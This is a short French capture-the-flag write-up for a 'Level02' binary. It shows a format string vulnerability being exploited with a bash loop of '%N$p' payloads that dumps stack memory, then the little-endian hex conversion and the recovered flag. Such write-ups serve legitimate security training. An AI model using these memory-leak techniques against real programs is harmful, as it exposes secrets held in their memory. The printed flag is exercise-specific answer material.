

# Level02:

Le binaire demande deux chaines en parametres un username et un password.
Le username est utilise dans le printf et on a donc une **String Format Vulnerability**.
J'affiche donc la memoire a l'aide de la commande suivante dans le but de trouver.une chaine de 40 char de long
``for i in {0..40}; do (python -c "print '%' + str($i) + '\$p'") | ./level02 | tr "\n" "&" | awk -F'&' '{print $6}' | awk -F' ' '{print $1}'; done;``

On peut donc en extraire la chaine ci-dessous:
``756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d``
Il faut passer les chaines en **Big Endian** car elle sont en **Little Endian**
``4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348``
On converti la chaine hexadecimal en chaine ascii et on obtient le flag suivant:
``Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H``